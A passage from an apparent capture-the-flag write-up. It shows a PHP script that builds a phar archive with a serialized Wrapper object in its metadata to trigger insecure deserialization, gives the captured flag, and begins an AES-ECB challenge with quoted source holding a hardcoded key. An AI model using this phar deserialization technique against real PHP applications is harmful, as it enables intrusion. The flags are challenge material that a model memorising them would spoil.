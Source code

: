 We found our exploitable class: `Wrapper`! We also know that our win condition is to construct an object of type `Doit`. This is already being done for us, but only if a property called `doit` is set on the `Wrapper` instance/object that executes `__wakeup`. Now that we know what to do, let's get started!

We use the following code to generate the phar:
```php
<?php

// This will actually not work, you have to set this value manually in your
// active php.ini. Don't forget to change it back!
ini_set('phar.readonly', 0);

// Create a new instance of the Wrapper class and modify its property
class Wrapper { }
$dummy = new Wrapper();
$dummy->doit = "hello";

@unlink("poc.phar");
$poc = new Phar("poc.phar");
$poc->startBuffering();
$poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

// Add a new file in the archive with "text" as its content
$poc["file"] = "text";

// Add the dummy object to the metadata. This will be serialized
$poc->setMetadata($dummy);

// Write to disk
$poc->stopBuffering();
```
This will generate a file called `poc.phar` with a custom `Wrapper` object deserialized. Now we simply send this file to the challenge endpoint with query parameter `s` set to `p`, and...
```
flag{scooby}
```
---

## Forensic

### OpenSSL 
This one was pretty cool since we knew absolutley nothing about cryptography. The challenge was to decrypt a message that was encrypted with an unknown key. The algortihm used was AES-128-ECB. They also provided the source code:
```php
<?php

function pad_data($data)
{
  $flag = "flag{wouldnt_y0u_lik3_to_know}"; 

  $pad_len = (16 - (strlen($data.$flag) % 16));
  return $data . $flag . str_repeat(chr($pad_len), $pad_len);
}

if(isset($_POST["do_encrypt"]))
{
  $cipher = "aes-128-ecb";
  $iv  = hex2bin('00000000000000000000000000000000');
  $key = hex2bin('74657374696E676B6579313233343536');
  echo "</br><br><h2>Encrypted Data:</h2>";
  $ciphertext = openssl_encrypt(pad_data($_POST['text_to_encrypt']), $cipher, $key, 0, $iv); 

```